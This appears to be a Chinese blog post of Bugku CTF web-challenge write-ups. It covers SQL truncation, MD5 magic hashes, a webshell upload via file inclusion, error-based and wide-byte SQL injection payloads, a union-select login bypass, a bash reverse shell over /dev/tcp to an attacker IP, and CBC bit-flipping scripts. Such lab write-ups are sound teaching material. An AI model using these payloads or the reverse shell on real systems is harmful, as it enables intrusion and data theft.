 ```yaml
---
layout: post
title: "Bugku writeup4"
date: 2018-03-21 22：00
categories: jekyll update
---
```


# web
### login1(SKCTF)
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/67.png" >  
</div>
&emsp;&emsp;这道题用的是`sql约束攻击`，利用的是数据库字段定义时产生的漏洞。如：
```shell
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
```
&emsp;&emsp;这里的`username`只允许25个字符，超过后就舍去25字符以后的，然后在`mysql`中，`admin`跟`admin       [很多空格]`在查询的时候是一样的。因为`admin`用户已经存在，但我们不知道他的密码，所以我们自己注册一个`admin`然后替换掉密码。所以我们可以注册一个`admin[很多个空格]1`的用户名，只要总字符数超过25，然后密码设成你的。注册成功后使用`admin`加你的`密码`去登陆即可得到flag。

### md5 collision(NUPT_CTF)
&emsp;&emsp;这道题是MD5碰撞，PHP在进行比较运算时，如果遇到了0e\d+这种字符串，就会将这种字符串解析为科学计数法，然后`0 == 字符串`是成立的，从而绕过了MD5检查，这里记录一些MD5值：
```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

### 文件包含2
&emsp;&emsp;打开题目，在源代码中发现了`upload.php`
<div align="center">
    <img src="/images/posts/bugku/68.png" >  
</div>
&emsp;&emsp;访问后发现是文件上传，但是只支持图片文件，不够这里没关系，不用考虑怎么绕过，因为文件包含的时候会使用`php`解析：
<div align="center">
    <img src="/images/posts/bugku/69.png" >  
</div>
&emsp;&emsp;上传一句话
<div align="center">
    <img src="/images/posts/bugku/70.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/71.png" >  
</div>
&emsp;&emsp;但是访问后发现存在过滤，`<?php`被替换成`_`。如下图：
<div align="center">
    <img src="/images/posts/bugku/72.png" >  
</div>
&emsp;&emsp;但是我们可以使用`<script language=php> </script>`标签绕过这个验证，我们再上传一次：
<div align="center">
    <img src="/images/posts/bugku/73.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/74.png" >  
</div>
&emsp;&emsp;可以看到，后台已经成功的解析了我们的`php代码`。接着使用菜刀连接。
<div align="center">
    <img src="/images/posts/bugku/75.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/76.png" >  
</div>
&emsp;&emsp;最终我们能拿到flag：`SKCTF{uP104D_1nclud3_426fh8_is_Fun}`。

### flag.php
&emsp;&emsp;题目：
<div align="center">
    <img src="/images/posts/bugku/77.png" >  
</div>
&emsp;&emsp;打开页面后发现提交表单没有反应，然后想起题目提示，所以尝试一下`get`一个请求。然后可以找到源码：
<div align="center">
    <img src="/images/posts/bugku/78.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/79.png" >  
</div>
&emsp;&emsp;这里有些诱惑性的东西，它故意在最后放出了`$key`的值，然而当你拿着`$KEY='ISecer:www.isecer.com';`去序列化后提交会发现是不对的。
<div align="center">
    <img src="/images/posts/bugku/80.png" >  
</div>
&emsp;&emsp;其实这道题用得知识跟数字与字符串比较的绕过方式有点相似，首先`$KEY`的值是没有定义的，但是我们可以构造`s:0:"";`字符串，他反序列化的结果就是一个空的字符串，然后绕过他的比较。
<div align="center">
    <img src="/images/posts/bugku/82.png" height="50%" />  
</div>
<div align="center">
    <img src="/images/posts/bugku/81.png" >  
</div>
&emsp;&emsp;此时flag就出来了。

### sql注入2
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/83.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/84.png" >  
</div>
&emsp;&emsp;这道题尝试了很多注入但都没有成功，后来经过看网上的writeup，才发现是`.DS_Store`泄露，然后网上找了个<a href="https://github.com/lijiejie/ds_store_exp">exp</a>，运行后就能得到flag文件。
<div align="center">
    <img src="/images/posts/bugku/85.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/86.png" >  
</div>
&emsp;&emsp;flag就是：`flag{sql_iNJEct_comMon3600!}`。

### 孙xx的博客
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/87.png" >  
</div>
&emsp;&emsp;这里提示信息搜集，所以我们扫一扫目录：
<div align="center">
    <img src="/images/posts/bugku/88.png" >  
</div>
&emsp;&emsp;这里扫出了`phpmyadmin`的目录，然后再去网站上看看，然后就能发现数据库的用户名和密码。
<div align="center">
    <img src="/images/posts/bugku/89.png" >  
</div>
&emsp;&emsp;我们拿去登陆一下，就能发现flag。
<div align="center">
    <img src="/images/posts/bugku/90.png" >  
</div>

### 报错注入
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/91.png" >  
</div>
&emsp;&emsp;可以看到这里过滤了很多字符，包括`空格`，但由于`mysql`的特性，我们可以使用回车换行符还替代即`%0a`或`%0d`。

&emsp;&emsp;因为要进行报错注入，所以我们可以使用`extractvalue()`或者`updatexml()`进行报错，尝试一条报错语句：
```
?id=1%0aand%0aextractvalue(1,concat(0x7e,(select%0a@@version),0x7e))
?id=1%0aand%0aupdatexml(1,concat(0x7e,(select%0a@@version),0x7e),1)
```
<div align="center">
    <img src="/images/posts/bugku/92.png" >  
</div>
&emsp;&emsp;可以看到已经成功报错，这里把`%0a`换成`%0d`也是可以的。要读取文件，mysql提供了`load_file()`函数，并且需要对文件名进行`16进制`编码。又因为`extractvalue()`有长度限制,最长为`32位`，所以我们需要使用`substr()`对`hex()`过的文件内容进行分割，我们一次取30个就好。这里注意的是如果不对文件内容进行`16进制`编码就会出现无法读取的情况。
```
?id=1%0aand%0a(extractvalue(1,concat(0x7e,substr(hex(load_file(0x2f7661722f746573742f6b65795f312e706870)),1,30))),0x7e)
```
&emsp;&emsp;最终我们能拿到一串16进制的字符，然后解密就可以得到flag：
<div align="center">
    <img src="/images/posts/bugku/93.png" >  
</div>
&emsp;&emsp;但这里最坑的就是双引号是中文的`”`，所以直接复制题目给的flag形式，然后把双引号里的值粘贴进去就行了。

### login3(SKCTF)
&emsp;&emsp;打开题目，发现过滤了很多字符，包括`空格 , = and`，所以这给我们注入带来极大的不便，但是`or select >`没有被过滤，我们先找到闭合字符。而且我们注意到，页面使用的是`en`编码，所以可以考虑`宽字节`注入。
<div align="center">
    <img src="/images/posts/bugku/94.png" >  
</div>
&emsp;&emsp;然后我们构造了验证poc：`username=admin%df%27or'1'>'1&password=admin`跟`username=admin%df%27or'2'>'1&password=admin`。
<div align="center">
    <img src="/images/posts/bugku/95.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/96.png" >  
</div>
&emsp;&emsp;可以看到当`or`返回真时它会检查`password`是否正确，而当`or`返回假时会报`没有此用户`的错误，所以，我们可以接着构造我们的payload。下面是我的payload：
```
username=admin%df%27or(select(password))>'0&password=admin
```
&emsp;&emsp;我们只需要不断刷新`>'`后面的字符就能把密码给注入出来，这里值得注意的是最后一个值的确定，可以看到当最后一个字符为`/`时页面返回了真，而为`0`时则返回了假。
<div align="center">
    <img src="/images/posts/bugku/97.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/98.png" >  
</div>
&emsp;&emsp;因为我们使用的是`>`来进行判断的，所以最后的一个值一定会比真实值`小`，也就是说我们最后一位应该取`0`才是正确的。所以最终md5值：`51b7a76d51e70b419f60d3473fb6f900`。解密出来就是：`skctf123456`。然后我们登陆一下就能获得flag。
<div align="center">
    <img src="/images/posts/bugku/99.png" >  
</div>
&emsp;&emsp;ps：本来这里是打算写脚本跑的，但因为判断条件在脚本里无法使用，在postman中也不能作为判别的依据，所以，这个方法只能在`burpsuite`跟`zap`上使用。
<div align="center">
    <img src="/images/posts/bugku/100.png" height="50%" />  
</div>

### Trim的日记本
&emsp;&emsp;打开页面后如下：
<div align="center">
    <img src="/images/posts/bugku/101.png" height="80%" />  
</div>
&emsp;&emsp;然后随手注册了以一个账号，但发现不知道`id`无法登陆，所以就拿出了目录扫描器看看有什么发现。
<div align="center">
    <img src="/images/posts/bugku/102.png" />  
</div>
&emsp;&emsp;然后这里还真的有发现，我们访问一下`show.php`。
<div align="center">
    <img src="/images/posts/bugku/103.png" />  
</div>
&emsp;&emsp;可以发现一个flag，拿去提交还真是真的flag。所以这道题就so easy了。。。

### login2(SKCTF)
&emsp;&emsp;这道题就是学习姿势了，自己做的时候没有找到思路，然后看了writeup才做出来。

&emsp;&emsp;对请求抓包，然后可以发现`tip`，解密出来是几行代码。
<div align="center">
    <img src="/images/posts/bugku/104.png" />  
</div>
```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}

```
&emsp;&emsp;这里可以看到它是分离式的验证，首先查询`username`的用户，然后拿出`password`再进行比较，一开始想着是注入出`admin`的密码，但发现可能没有这个用户，而且也找不到注入的`poc`。后来参考网上的writeup才知道正确的打开方式。payload：
```
username=' union select md5(1),md5(1)#&password=1
```
&emsp;&emsp;执行这条语句时由于前面的`username`为空，所以没有数据返回，但后面的`union select md5(1),md5(1)`则会返回两个MD5(1)的值，然后`password`我们也置为`1`，从而绕过`if`语句的判断。

&emsp;&emsp;接下来可以进入命令执行的页面。
<div align="center">
    <img src="/images/posts/bugku/105.png" />  
</div>
&emsp;&emsp;然后我们反弹回一个shell来方便我们操作。我们先在本地监听一下，这里使用nc。
```bash
nc -lvv 8888
```
&emsp;&emsp;然后执行反弹shell的命令。
```bash
|bash -i >& /dev/tcp/你的公网ip/8888 0>&1
```
&emsp;&emsp;最后就能在服务器上收到shell，然后查询flag。
<div align="center">
    <img src="/images/posts/bugku/106.png" height="70%" />  
</div>
&emsp;&emsp;所以flag：`SKCTF{Uni0n_@nd_c0mM4nD_exEc}`。

### login4（CBC字节翻转攻击）
&emsp;&emsp;这道题就纯属学习姿势了，首先是进行敏感目录扫描，然后发现`.index.php.swp`源码泄露。
<div align="center">
    <img src="/images/posts/bugku/107.png" />  
</div>
```php
<?php
define("SECRET_KEY", file_get_contents('/root/key'));
define("METHOD", "aes-128-cbc");
session_start();

function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}

function login($info){
    $iv = get_random_iv();
    $plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    $_SESSION['username'] = $info['username'];
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}

function check_login(){
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $_SESSION['username'] = $info['username'];
        }else{
            die("ERROR!");
        }
    }
}

function show_homepage(){
    if ($_SESSION["username"]==='admin'){
        echo '<p>Hello admin</p>';
        echo '<p>Flag is $flag</p>';
    }else{
        echo '<p>hello '.$_SESSION['username'].'</p>';
        echo '<p>Only admin can see flag</p>';
    }
    echo '<p><a href="loginout.php">Log out</a></p>';
}

if(isset($_POST['username']) && isset($_POST['password'])){
    $username = (string)$_POST['username'];
    $password = (string)$_POST['password'];
    if($username === 'admin'){
        exit('<p>admin are not allowed to login</p>');
    }else{
        $info = array('username'=>$username,'password'=>$password);
        login($info);
        show_homepage();
    }
}else{
    if(isset($_SESSION["username"])){
        check_login();
        show_homepage();
    }else{
        echo '<body class="login-body">
                <div id="wrapper">
                    <div class="user-icon"></div>
                    <div class="pass-icon"></div>
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>Fill out the form below to login to my super awesome imaginary control panel.</span>
                        </div>
                        <div class="content">
                        <input name="username" type="text" class="input username" value="Username" onfocus="this.value=\'\'" />
                        <input name="password" type="password" class="input password" value="Password" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <input type="submit" name="submit" value="Login" class="button" />
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```
&emsp;&emsp;因为`admin`用户被禁止了登陆，但是可以利用反序列化漏洞重置`$_SESSION['username']`为`admin`，然后拿到flag。

&emsp;&emsp;首先介绍一下`CBC字节翻转攻击`，如果我们要想把第二行（段）中的`2`变成`n`，我们只需要修改第一行（段）的`r`。
```
原文：
a:2:{s:8:"username";s:5:"admi2";s:8:"password";s:5:"skctf";}
按16个字符分割：
a:2:{s:8:"userna
me";s:5:"admi2";
s:8:"password";s
:5:"skctf";}
```
<div align="center">
    <img src="/images/posts/bugku/108.png" />  
</div>
&emsp;&emsp;修改方式就是：
```python
bs_de = 'a:2:{s:8:"username";s:5:"admi2";s:8:"password";s:5:"skctf";}'
bs_de=bs_de[0:13]+chr(ord(bs_de[13]) ^ ord('2') ^ ord('n'))+bs_de[14:]
```
&emsp;&emsp;我们把`cookie`中的`cipher`拿出来修改一下。
```python
# -*- coding:utf-8 -*-

import base64

bs = 'e8SnC9p3aEmJciIN8NWYM1PcA/A7jSwsiTglqdBMLRLf/8LOHKmhOoHSOBbJB1xEnE6S6DpfgkD8NWlJETxDZQ=='
bs_de = base64.b64decode(bs)
ch = chr(ord(bs_de[13]) ^ ord('2') ^ ord('n'))

bs_de=bs_de[0:13]+ch+bs_de[14::]

print(base64.b64encode(bs_de))
```
&emsp;&emsp;然后把得到的结果替换掉`cipher`，访问后可以发现反序列化出错了。
<div align="center">
    <img src="/images/posts/bugku/109.png" />  
</div>
&emsp;&emsp;这是因为在修改`第二段明文`的时候我们把`第一段的密文`破环掉了，造成后台无法解密出原来的数据。如下面这种情况。
<div align="center">
    <img src="/images/posts/bugku/110.png" />  
</div>
&emsp;&emsp;当将`6`修改成`7`的时候，造成了第一段密文解密出来的结果变成了乱码，所以我们还需要还原`第一段的密文`，所以我们要对`iv`这个初始向量进行修改。
<div align="center">
    <img src="/images/posts/bugku/111.png" />  
</div>
&emsp;&emsp;修改的方法还是跟上面一样的套路，只不过这里的`cipher`要变成上面提示`反序列化`错误的那个密文。因为这个反序列化错误的字符是`第一次翻转后的明文`。
<div align="center">
    <img src="/images/posts/bugku/112.png" />  
</div>
&emsp;&emsp;所以，我们修改的代码如下：
```python
import base64
mingwen_de='xvFs8hcryE3UwXuTa5b+7W1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjg6IlBhc3N3b3JkIjt9'
mingwen = base64.b64decode(mingwen_de)

iv = 'wJdHFG15Qc2hs1bkgMHd4w=='
iv_de = base64.b64decode(iv)
new = 'a:2:{s:8:"userna'
for i in range(16):
    iv_de = iv_de[:i] + chr(ord(iv_de[i]) ^ ord(mingwen[i]) ^ ord(new[i])) + iv_de[i+1:]

print(base64.b64encode(iv_de))
```
&emsp;&emsp;将得到的结果替换到`iv`上，然后刷新页面，就能看到flag了。
<div align="center">
    <img src="/images/posts/bugku/113.png" />  
</div>
